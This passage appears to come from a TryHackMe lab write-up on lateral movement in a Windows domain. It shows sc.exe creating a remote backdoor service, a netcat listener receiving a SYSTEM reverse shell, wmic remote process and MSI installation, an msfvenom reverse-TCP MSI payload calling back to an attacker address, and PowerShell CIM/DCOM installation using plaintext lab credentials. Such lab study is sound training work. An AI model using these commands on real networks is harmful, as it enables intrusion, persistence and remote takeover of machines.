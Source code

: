 Create a service and start on `thmiis.za.tryhackme.com`

```bash
sc.exe \\thmiis.za.tryhackme.com create BackDoorService binPath= "%windir%\Temp\rev.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start BackDoorService
```

Reverse Shell

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37294
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>C:\Users\t1_leonard.summers\Desktop\flag.exe
C:\Users\t1_leonard.summers\Desktop\flag.exe
THM{MOVING_WITH_SERVICES}
```


## Moving Laterally Using WMI

- Connecting to WMI From Powershell
- Remote Process Creation Using WMI
	- `wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`
- Creating Services Remotely with WMI
- Creating Scheduled Tasks Remotely with WMI
- Installing MSI packages through WMI
	- `wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi`


### Let's Get to Work!

Upload backdoor msi file

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.200.19.249 LPORT=1111 -f msi -o rev.msi
proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever' --put-file rev.msi \\Windows\\Temp\\revs.msi
```

```powershell
powershell -ep bypass

$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\Temp\rev.msi"; Options = ""; AllUsers = $false}
```
